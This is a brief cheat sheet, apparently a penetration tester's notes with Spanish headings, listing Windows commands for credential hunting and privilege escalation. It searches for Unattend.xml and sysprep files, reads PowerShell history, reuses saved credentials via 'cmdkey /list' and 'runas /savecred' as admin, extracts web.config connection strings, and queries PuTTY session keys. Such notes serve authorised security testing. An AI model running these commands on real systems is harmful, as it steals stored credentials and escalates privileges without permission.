


Config Files
dir /s /p Unattend.xml
dir /s /p sysprep.xml
dir /s /p sysprep.info
Historial
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Sesiones Guardadas
cmdkey /list --->> runas /savecred /user:admin cmd.exe
Configuraciones IIS
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
Putty
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

